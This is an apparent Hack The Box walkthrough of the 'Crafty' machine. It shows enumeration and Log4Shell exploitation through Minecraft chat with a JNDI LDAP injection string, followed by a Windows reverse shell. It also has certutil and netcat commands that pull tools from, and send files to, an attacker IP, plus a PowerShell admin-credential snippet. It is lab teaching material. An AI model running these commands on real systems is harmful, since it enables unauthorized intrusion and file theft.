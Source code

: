 ```yaml
---
date: 2025-04-03
categories: [CTF, HTB]
title: "HTB - Crafty"
tags: ['ldap', 'linux', 'nmap', 'powershell', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows', 'minecraft']

description: "Crafty - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Crafty

- NMAP
```bash
nmap 10.129.18.108 -Pn -p- -vv

```

![image1](../resources/2348de89026443d1a2151719e9194f0b.png)


![image2](../resources/22cbf939d17c489da10248ef960af600.png)

- Add crafty.htb to /etc/hosts

![image3](../resources/cd35b355587447c3940ccdaa292e1eb1.png)

- Subdomain enumeration:
```bash
wfuzz -u crafty.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crafty.htb" --hl 1

```
- Download a Minecraft player - Tslauncher
- Run the .jar file and enter any username and choose the version
- Then install and enter game


![image4](../resources/a64c40c42b874113b433701dcfa080a4.png)

- Add server


![image5](../resources/eabc3d91c33e4c92a160fb8f20b90698.png)

- Join server

- Here is a POC log4j-shell for this version
[https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)

[CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1532s)

<https://github.com/pentesterland/Log4Shell>

- Clone the directory and cd into it
```bash
git clone <https://github.com/kozmer/log4j-shell-poc>

```
- Download jdk1.8 - and rename the folder to jdk1.8.0_20:
```bash
wget <https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz>

```

![image6](../resources/b46b34241e22412da02e3ffe1aed7646.png)

- Set up listener:

![image7](../resources/71521ef2a41e4916a070dbdb57f596c8.png)

- Run python script:

![image8](../resources/68b2cf81195444ceadc354bbb64a605a.png)

- Copy the string to send:
```bash
\${jndi:ldap://10.10.14.38:1389/a}

```
- In the TSlauncher app - Press T to open the chat box
Paste in the code


![image9](../resources/c3eea277e0c24a118009299e65d233f5.png)

- We can see the GET requests from the webserver

![image10](../resources/46893a8a77214232847249d37e277ad2.png)

- But no shell

- Looking at the code:


![image11](../resources/74c4303464944f7a9a3a9cb1040a4bb9.png)

This is for a Linux server

- We need to change the payload for a Windows reverse shell:

![image12](../resources/2269a1a1c7b94a42875e35d9dec3f28d.png)

- Replace /bin/sh with cmd.exe - The IP and Port forwarding happens in the Java code itself

- Repeat the steps:
  - Set up listener
  - Run the python poc.py
  - Copy the command
  - Paste into minecraft chat

- Shell

![image13](../resources/75875bad84a7458f91e675134f30b51e.png)


![image14](../resources/a73dc94b611d4682aafc0ea6eb252377.png)

```bash
dir /Q /A

```

![image15](../resources/fa08f790e63c4dd9bf794153bb670c68.png)

- Found a .jar file

![image16](../resources/623a1da6f4314c86bb4ffb9824e179e4.png)

- We can't read it here so we need to transfer it to Kali

- Set up Python server

- Copy nc.exe over to the target:

`certutil.exe -urlcache -f http://10.10.14.38:8082/nc.exe c:\Users\svc_minecraft\Documents\nc.exe`


- Using nc we can send and receive:
  - On Kali:
```bash
nc -lnvp 4444 \> playercounter-1.0-SNAPSHOT.jar

```
- On Windows:
```bash
c:\Users\svc_minecraft\Documents\nc.exe 10.10.14.38 4444 < playercounter-1.0-SNAPSHOT.jar

```
- **Ctrl+C on Kali** to stop the connection

![image17](../resources/2afd90148abb462db1414bc56bc70efc.png)


![image18](../resources/61b45372a37a40699d92303848612071.png)


![image19](../resources/650ad55a7f7f4c0dba8c1698e83cecdc.png)

- Reading the Java archive file:
```bash
jar tf \<file.jar\>:
```
![image20](../resources/473050f698774d32bdc4ed132f4646c6.png)

- Extract with 
```bash
jar xf \<file.jar\>
```

- That didn't extract anything useful and not all the files were there, as seen above

- Open the .jar file with a Java Decompiler JD-GUI:

![image21](../resources/faed98b62a334135b1b0456dfef230f1.png)
- We find a potential password

- Open Powershell and enter the following to open a new Powershell session as Admin:

```powershell
$User = "Administrator"
$Password = ConvertTo-SecureString "<Password\>" -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential($User, $Password)
Start-Process cmd.exe -Credential $Credential

```

![image22](../resources/37e2e2bd470240299708cb4cab49acb7.png)


![image23](../resources/d022535dad4c40eebf79a4de54bb36cb.png)